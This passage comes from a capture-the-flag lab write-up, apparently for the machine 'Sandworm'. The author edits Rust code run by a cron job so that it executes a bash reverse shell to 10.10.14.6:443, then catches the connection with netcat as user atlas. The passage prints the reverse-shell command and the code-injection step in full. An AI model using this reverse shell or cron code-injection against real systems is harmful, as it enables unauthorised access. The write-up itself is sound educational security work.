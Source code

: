         let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
            Ok(file) => file,
            Err(e) => {
                println!("Error opening log file: {}", e);
                return;
            }
        };
    
        if let Err(e) = file.write_all(log_message.as_bytes()) {
            println!("Error writing to log file: {}", e);
        }
        
        Command::new("sh")
                .arg("-c")
                .arg("touch /dev/shm/0xdf")
                .output()
                .expect("failed to execute");
    }
    

I’ll wait for the next two minute cron, and then there’s a file in `/tmp`
owned by atlas:

    
    
    silentobserver@sandworm:/dev/shm$ ls -l
    total 0
    -rw-rw-r-- 1 atlas atlas 0 Nov 15 12:14 0xdf
    

#### Shell

To get a shell, I’ll modify what runs to a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

    
    
        Command::new("bash")
                .arg("-c")
                .arg("bash -i >& /dev/tcp/10.10.14.6/443 0>&1")
                .output()
                .expect("failed to execute");
    }
    

After a couple minutes, I get a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.218 33814
    bash: cannot set terminal process group (211145): Inappropriate ioctl for device
    bash: no job control in this shell
    atlas@sandworm:/opt/tipnet$ 
    

And this time, the [shell
upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q) works without issue,
which is a good signal it’s not in the jail:
